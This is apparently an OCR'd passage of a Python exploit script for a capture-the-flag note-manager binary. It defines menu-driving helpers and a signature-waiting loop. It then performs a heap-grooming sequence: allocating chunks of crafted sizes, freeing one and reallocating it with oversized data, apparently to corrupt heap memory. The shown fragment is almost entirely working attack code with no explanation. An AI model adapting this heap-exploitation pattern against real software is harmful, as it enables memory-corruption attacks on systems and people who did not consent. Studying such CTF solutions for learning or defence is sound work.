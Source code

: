 ```python
        r.writeline(b'3')
        r.read()
        r.writeline(f'{idx}'.encode())
        r.read()
        r.writeline(data)

    def delete(idx):
        r.read()
        r.writeline(b'4')
        r.read()
        r.writeline(f'{idx}'.encode())

    def print_notes(idx):
        r.read()
        r.writeline(b'5')
        r.read()
        r.writeline(f'{idx}'.encode())

    def load():
        r.read()
        r.writeline(b'6')

    def exit():
        r.read()
        r.writeline(b'7')

    def wait_for_shas(n,idx):
        run = True
        sig = []
        while run:
            sign()

            out = r.readline()

            i = 0
            while not b'Notes signed!' in out:

                if b'Note signed:' in out:
                    #print(out[-3:-1])
                    #print(i, out)
                    print(i,out[-3:-1], idx, n)
                    if out[-3:-1] == idx and n == i:
                        print('AAAA')
                        run = False
                        sig.append(out)
                    i += 1
                out = r.readline()
            if not run:
                break
        print('win', sig)
        return out

    new(0x15, b"A"*5)
    new(0x508-0x4, b"B"*5)
    new(0x18-0x4, b'C'*5)
    new(0x18-0x4, b"DDDD")

    wait_for_shas(3, b'71')

    delete(2)
    new(0x508-0x4, b"DDDD"*50)

    load()
```